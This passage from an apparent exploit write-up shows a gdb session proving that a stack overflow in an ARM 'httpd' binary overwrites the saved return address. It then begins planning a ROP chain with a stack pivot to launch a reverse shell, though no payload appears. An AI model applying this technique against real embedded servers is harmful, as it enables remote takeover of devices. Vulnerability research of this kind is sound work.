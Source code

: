 By this state, it shows that it indeed is possible to overwrite the buffer.

Next, set a conditional breakpoint to break at `0x44464` after the 535th iteration. The reason is to make sure that the breakpoint gets hit right before writing the final byte of the return address. In this case, the final letter ‘c’ in the return address.

```
(gdb)break *0x44464 if $r8 == 535 
# This breaks after the final write of the letter 'c'
...
(gdb) i r $r8
r8             0x217	535
(gdb) x/5s $sp
0x7e98ee28:	'a' <repeats 200 times>...
0x7e98eef0:	'a' <repeats 56 times>, 'b' <repeats 144 times>...
0x7e98efb8:	'b' <repeats 132 times>, "cccc"  <<-------OUR RETURN ADDRESS THAT WAS CONTROLLED 
0x7e98f041:	""
0x7e98f042:	""
Breakpoint 7, 0x00044464 in ?? ()
(gdb) ni
...
...
(gdb) ni
Continuing.
=> 0x44584:	add	sp, sp, #512	; 0x200
   0x44588:	pop	{r4, r5, r6, r7, r8, pc} <<-- The 6th position of the stack which is 0x63636363
   0x4458c:	andeq	r2, r5, sp, ror #27
   0x44590:	andeq	r8, r4, r12, asr #19
   0x44594:			; <UNDEFINED> instruction: 0x0004dbba
   0x44598:	andeq	r2, r5, r9, ror r11
   0x4459c:	andeq	r8, r4, r11, lsl #20
   0x445a0:	andeq	r5, r5, lr, asr r5
   0x445a4:	push	{r4, r5, r6, r7, lr}
   0x445a8:	sub	sp, sp, #132	; 0x84

Breakpoint 8, 0x00044584 in ?? ()
(gdb) x/20wx $sp+512
0x7ef86028:	0x62626262	0x62626262	0x62626262	0x62626262
0x7ef86038:	0x62626262	0x63636363	0x00000000	0x00000000
```

# Exploitation

In this section, the properties of the `httpd` binary is stated. It will also explain why a stack pivot gadget was needed and helpful in this phase. Next, it will also explain how the gadgets were chained as well as the location to store the attacker’s custom command which in this case, a reverse shell.

Properties of the `httpd` binary:

- ASLR is enabled
- PIE is not enabled
- NX is enabled
- It is actually fine to put multiple same fields.
    - Example: `Content-Type` field is also accepted
- It is possible to add multiple NULL bytes without error because fgets was used.
- Presence of NULL bytes in the instruction addresses
    - Gives us problems but they can be present at the back of values of fields
- Interesting thing is that there is another part in the stack that is controllable as data are being copied there for processing.
